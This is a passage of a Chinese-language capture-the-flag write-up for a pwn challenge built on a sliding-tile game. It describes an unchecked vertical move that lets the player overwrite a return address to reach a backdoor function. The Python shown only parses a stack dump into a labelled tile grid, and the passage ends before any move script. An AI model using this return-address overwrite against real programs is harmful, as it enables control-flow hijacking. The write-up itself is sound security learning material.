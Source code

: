 ## Pwn - game

​	最折磨的一集。游戏是数字华容道。发现**上下移动不会检查边界**，可以修改返回地址。程序中存在**后门函数 `backdoor()`**。一开始的思路是利用栈中残余固定的值拼凑出一个 `backdoor` 的地址。但是调试起来十分麻烦，所以用 Python 重写了游戏，可视化手动玩，自动生成脚本，大幅减轻负担。

```python
import numpy

input_str = '''
0x7ffc0836c080: 0x00007ffc0836c090      0x0000598b0000000a
0x7ffc0836c090: 0x010a08090204050b      0x000d070f0e060c03
0x7ffc0836c0a0: 0x00007ffc0836c1f8      0x15445e0a74b74c00
0x7ffc0836c0b0: 0x00007ffc0836c0e0      0x0000598b817dcf48
0x7ffc0836c0c0: 0xdcdcd8d8dcd8dcd8      0x0000769a5ce75400
'''
print()

def flat(eles):
    res = []
    for i in eles:
        if isinstance(i, list):
            res.extend(flat(i))
        else:
            res.append(i)
    return res

data = flat([([i.split(':')[1].strip().split('      ')[0].replace('0x', '')] + [i.split(':')[1].strip().split('      ')[1].replace('0x', '')]) for i in input_str.strip().split('\n')])

tiles = []

for addr in data:
    temp = []
    while len(addr) != 0:
        temp.append(addr[0:2])
        addr = addr[2:]
    tiles.extend(temp[::-1])

tiles_np = numpy.array(tiles).reshape(len(tiles) // 4, 4)
tiles = tiles_np.tolist()

# 一些提示符
tiles[7][2] = 'YY'
tiles[7][3] = 'XX'
tiles[10][3] = '||'
tiles[11][3] = '||'
tiles[14][0] = '-0'
tiles[14][1] = '-1'
tiles[14][2] = 'EE'
tiles[14][3] = 'FF'
tiles[15][0] = 'AA'
tiles[15][1] = 'BB'
tiles[15][2] = 'CC'
tiles[15][3] = 'DD'

moves = []

class Point:
    x: int
    y: int

p = Point()
p.x = 3
p.y = 7
```